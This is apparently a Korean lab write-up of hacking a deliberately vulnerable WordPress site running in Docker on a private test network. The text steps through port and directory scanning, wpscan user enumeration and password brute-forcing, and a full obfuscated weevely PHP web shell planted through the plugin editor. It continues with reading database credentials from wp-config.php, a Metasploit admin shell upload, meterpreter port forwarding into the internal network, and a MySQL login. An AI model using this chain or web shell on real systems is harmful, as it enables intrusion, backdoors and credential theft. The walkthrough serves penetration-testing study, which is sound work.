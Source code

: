 ```yaml
---
layout: single
title: "docker 환경으로 구성된 WordPress 블로그 Hacking 실습"
categories: Security
toc: true
author_profile: false
sidebar:
  nav: "docs"
---
```




## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]


 
## 웹쉘 연결 후 내부 정보 수집

- 대부분 wordpress에서 플러그인 업로드를 하면 /wp-content/plugins/[펄러그인].php
```
http://192.168.146.129:8000/wp-content/plugins/hello.php hacker
```

- nmap 바이너리 파일을 weevely의 file_upload 모듈을 사용하여 침투한 시스템에 업로드.
- https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap 다운로드 하여 kali에 옮기기
- tmp 파일에 nmap 바이너리를 넣는 이유는 침투했을 때 권한이 www-data 이기 때문에 권한이 있는 임시 디렉토리인 tmp에 업로드 한 것이다.
```
file_upload /home/kali/Downloads/nmap /tmp/nmap
ls
chmod +x nmap
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/fa80b0c0-2ce3-47dd-a159-5b42f6929c3e)

- 내부 프라이빗 ip 확인후 내부 인터넷 망 스캔

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/67d1f594-b753-472f-8d7a-26275ef88c6e)

```
ip addr
./nmap 172.18.0.0/24
```

- nmap 결과로 보아 현재위치는 웹서비스를 제공하는 서버이다.
- 172.18.0.2 는 Database mysql 서버이다.
- 172.18.0.4 는 ssh로 내부로 접속을 하기 위한 bastion 서버로 추측 할 수있으며, 8022의 목적을 알 수 없는 포트가 열려있다.
- 일반적으로 8022 포트는 표준 SSH(Secure Shell) 포트인 22의 대안으로 사용될 수 있다.

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c59d3ba2-7fae-48c9-b422-aea6ca8decfb)

- db 서버가 있는 것을 확인했으니 db서버 정보를 획득 해야한다.
- wordpress 에서는 wp-config.php에 db 계정 정보가 담겨있다.

```
cd /var/www/html
ls
cat wp-config.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7d441bb0-b738-4597-b4cd-871aa6b8ae55)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2738974d-576d-45e2-9b2b-695a5801cc91)

- 브라우저로 접속했을 때 docker환경인 것을 힌트로 얻을 수 있었지만 확실하게 한번더 확인한다.
- docker 환경에 init 프로세스는 대부분 docker 이므로
- /proc/1/cgroup 내용을 확인하여 docker 환경임을 확신한다.

```
cat /proc/1/cgroup
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/8657076e-2fd2-42c7-b492-805a7873818c)



## 8022 포트 공격
- Kali에서 다른 터미널을 연다.

```
sudo msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOSTS 192.168.146.129
set RPORT 8000
set USERNAME bob
set PASSWORD Welcome1
exploit
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12a8d10e-1035-4971-b134-92d1c9f11c37)

- 내부에 침투하여 nmap으로 내부망 서버 구성을 확인하였다.
- 미터프리터 즉 웹서비스안에 msfconsole로 침투 성공도 하였다.
- 미터프리터의 기능인 포트포워딩 기능을 이용하여 해커의 8022 포트를 연다
- 해커는 자신의 브라우저에 localhost:8022로 접속을하면 침투한 내부망의 bastion 서버인 172.18.0.4:8022로 포워딩 해준다.

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2c786847-330a-4c68-8ad7-42552c70097e)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/02d167a5-9741-47c3-87e6-9fd59ec6b476)

- 분명 172.18.0.4:8022로 포트포워딩을 했는데 172.18.0.2로 접속되었다.
- 즉 172.18.0.4:8022는 내부 db서버인 172.18.0.2로 접속하는 포트였던 것이다.
- 획득한 db정보를 통해 접속해보자.

```
mysql -u wordpress -p
Enter password : WordPressISBest
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/d3f8d1d3-f2fc-4085-977b-e39f98be548f)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12eb1c7b-d758-4ed7-af81-a858a0defd48)

